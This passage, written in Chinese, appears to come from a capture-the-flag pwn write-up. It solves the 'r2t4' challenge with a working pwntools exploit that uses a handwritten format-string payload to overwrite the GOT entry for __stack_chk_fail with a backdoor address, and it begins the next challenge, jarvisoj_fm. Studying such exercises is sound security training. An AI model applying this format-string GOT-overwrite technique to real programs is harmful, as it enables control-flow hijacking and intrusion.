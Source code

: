 存在可以读取flag的后门函数

简单尝试可以发现格式化字符串是位于栈上的第六个参数

![](img/6f3fb3c36ca306ce999418f58939eb4d.png)

故考虑利用格式化字符串进行任意地址写劫持got表中的__stack_chk_fail为后门函数地址即可

需要注意的是`printf`函数遇到`\x00`会发生截断，故不能直接使用fmtstr_payload，而是要用手写的格式化字符串

构造exp如下：

```
from pwn import *
p = process('./r2t4')
e = ELF('./r2t4')
backdoor = 0x400626
payload = b'%64c%9$hn%1510c%10$hnaaa' + p64(e.got['__stack_chk_fail']+2) + p64(e.got['__stack_chk_fail'])
payload.ljust(100,b'A')
p.sendline(payload)
p.interactive() 
```

获得flag

![](img/a73c86abca399fbe31d22e2ebf63a287.png)

# 0x023.jarvisoj_fm - fmtstr

惯例的`checksec`，开了NX和canary

![image.png](img/e2d2ef8c0121ae8949dfccf1ac7f10fe.png)
